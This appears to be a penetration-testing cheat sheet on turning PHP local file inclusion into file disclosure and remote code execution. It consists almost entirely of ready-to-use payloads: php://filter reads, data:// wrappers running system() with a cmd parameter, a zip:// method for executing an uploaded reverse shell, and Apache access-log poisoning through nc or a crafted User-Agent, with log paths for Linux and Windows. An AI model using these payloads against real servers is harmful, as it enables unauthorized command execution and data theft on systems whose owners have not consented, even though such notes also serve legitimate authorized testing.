 
### PHP wrappers:

**Filter & base64 for file read**:
```bash
# Filter
page=php://filter/resource=admin.php

# Base64 encoded
page=php://filter/convert.base64-encode/resource=admin.php
```

**Data wrapper**:
```bash
# data://
page=data://text/plain,<?php%20echo%20system('ls');?>

# Base64: 
echo -n '<?php echo system($_GET["cmd"]);?>' | base64
# Usage
page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls
```

**Zip wrapper**:

If a website zip's uploaded files, stores them on the server and LFI is present, PHP wrappers can be used to execute this ZIP file. Start by uploading a PHP reverse shell. This shell will be zipped and now the LFI can be used to trick the server into executing the PHP shell from the ZIP file using a PHP wrapper:
```bash
zip://<PATH>/<ZIPFILE>%23shell&cmd=whoami
zip://<PATH>/<ZIPFILE>%23shell
```
- Example: [[Zipper]]


### LFI -> Log poisoning to RCE (Apache)

Using NC:
```bash
nc 192.168.154.72 80  
GET /<?php system($_GET['cmd']);?>
```

Modify the user-agent to inject php code into the access.log file (burp)
```bash
User-Agent: <?php system($_GET['cmd']);?>
```
>[!info]
>Usage:
>- `?cmd=whoami`
>- `&cmd=whoami`

Log file location:
```bash
# Linux
/var/log/apache2/access.log

# Windows
C:\xampp\apache\logs\access.log
C:\inetpub\logs\LogFiles\W3SVC1\
```

